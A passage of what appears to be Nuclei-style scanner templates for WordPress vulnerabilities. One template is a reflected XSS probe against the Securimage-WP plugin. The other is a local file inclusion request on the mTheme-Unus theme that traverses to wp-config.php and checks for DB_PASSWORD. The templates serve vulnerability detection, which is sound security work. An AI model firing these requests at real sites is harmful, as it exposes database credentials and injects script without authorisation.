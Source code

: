 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/securimage-wp/siwp_test.php/%22/%3E%3Cscript%3Ealert(1);%3C/script%3E?tested=1

### Matchers

**Type - word**

- words
  1. \<script>alert(1)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress mTheme-Unus Theme - Local File Inclusion

## Description

- WordPress mTheme-Unus Theme is vulnerable to local file inclusion via css.php.
- severity - high
- tags - wpscan,packetstorm,wordpress,wp-theme,lfi,mtheme

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

